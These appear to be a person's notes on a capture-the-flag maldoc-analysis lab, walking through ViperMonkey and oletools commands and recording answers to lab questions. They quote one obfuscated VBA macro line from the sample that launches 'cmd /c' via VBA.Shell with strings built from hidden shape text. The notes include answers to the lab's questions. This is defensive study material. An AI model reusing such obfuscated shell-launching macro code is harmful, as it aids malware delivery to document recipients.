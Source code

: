 
`trid` is a file identification tool - [GitHub](https://github.com/dubfr33/trid): *"TrID is a utility designed to identify file types from their binary signatures. While there are similar utilities with hard coded rules, TriID has no such rules. Instead, it is extensible and can be trained to recognize new formats in a fast and automatic way. TrID uses a database of definitions which describe recurring patterns
for supported file types."*

![](trid-v-a1.png)


```bash
# run first to prevent stdout and brain overflow 
vmonkey Desktop/maldocs/attacker1.doc
# -p output2FileAndStdout 
# -e Extract and evaluate/deobfuscate constant expressions
# -c idsplay IOCs in VBA
vmonkey -p attacker1.vmonkey -e -c Desktop/maldocs/attacker1.doc
```

oletools
```bash
# Get basic information 
oleid
```

![](oleid-a1.png)

```vb
ChrW() ' Returns the Unicode character that corresponds to the specified character code
CBool() ' convert to a boolean
Len() ' returns the number of characters in a text string.
LenB() ' returns the number of bytes used to represent the characters in a text string
Trim() ' Trims both leading and tailing string expressions
```

https://support.microsoft.com/en-gb/office/len-lenb-functions-29236f94-cedc-429d-affd-b5e33d2c67cb
https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/ltrim-rtrim-and-trim-functions
https://learn.microsoft.com/en-us/office/vba/language/concepts/getting-started/type-conversion-functions
https://help.libreoffice.org/latest/ro/text/sbasic/shared/03120112.html

![](vba-questioninghowtomakethis-moreeffient.png)


```vba
VBA.Shell# "CmD /C " + Trim(rjvFRbqzLtkzn) + SKKdjMpgJRQRK + Trim(Replace(pNHbvwXpnbZvS.AlternativeText + "", "[", "A")) + hdNxDVBxCTqQTpB + RJzJQGRzrc + CWflqnrJbKVBj, CInt(351 * 2 + -702)

 Set pNHbvwXpnbZvS = Shapes(Trim("h9mkae7"))
```

My guess is that `VBA.Shell` method will take everything above plus the possible key `Set pNHbvwXpnbZvS = Shapes(Trim("h9mkae7"))` to decrypt or use the key as an api call

Needing to know VBA makes this like being stuck ice as I cannot just run it so I tried a trick heard about turning CTFs into other CTFs by making it a wireshark CTF. The outliner IP did not fit the answer to Include the malicious IP and the php extension found in the maldoc.

Find the phone number in the maldoc. (Answer format: xxx-xxx-xxxx)
```bash
olemeta attacker1.doc
# 213-446-1757
# West Virginia  Samanta
```

I remember vaguely there is a tool to dump the xml and `http://schemas.openxmlformats.org/officeDocument/2006/customXml` could be another vba inside a vba...

I went a few minutes over a hour and looked the hints for some of questions just to push out all the low hanging even a monkey could get these 

Time-related malware shinagans
```bash
oletimes
# 2019-02-07 23:45:30
```

```bash
olevba
# AutoExec
```

https://www.onlinegdb.com/online_vb_compiler


```
# Get the Streams 
oledump.py $maldoc
```
